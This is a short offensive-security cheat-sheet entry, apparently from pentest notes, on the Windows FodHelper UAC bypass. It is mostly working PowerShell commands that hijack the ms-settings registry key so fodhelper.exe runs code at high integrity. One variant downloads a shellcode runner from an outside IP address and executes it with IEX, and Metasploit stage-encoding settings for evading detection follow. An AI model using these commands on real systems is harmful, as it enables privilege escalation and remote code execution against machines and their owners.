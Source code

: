 # UAC

## Bypass: FodHelper

Fodhelper.exe is an application that manages optional features like region-specific keyboard settings. It also runs as _high integrity_ due to the way it interacts with the Windows Registry, more specifically the current user's registry, which we can modify.

```powershell
New-Item -Path HKCU:\Software\Classes\mssettings\shell\open\command -Value powershell.exe –Force
New-ItemProperty -Path HKCU:\Software\Classes\mssettings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```

This is also integrated in Metasploit `(exploit/windows/local/bypassuac_fodhelper)`.

We can improve Fodhelper like so, where `run.txt` is a shellcode runner:

```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.183.133/run.txt') | IEX" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```

Then in msfconsole:

```
set EnableStageEncoding true 
set StageEncoder x64/zutto_dekiru
exploit
```
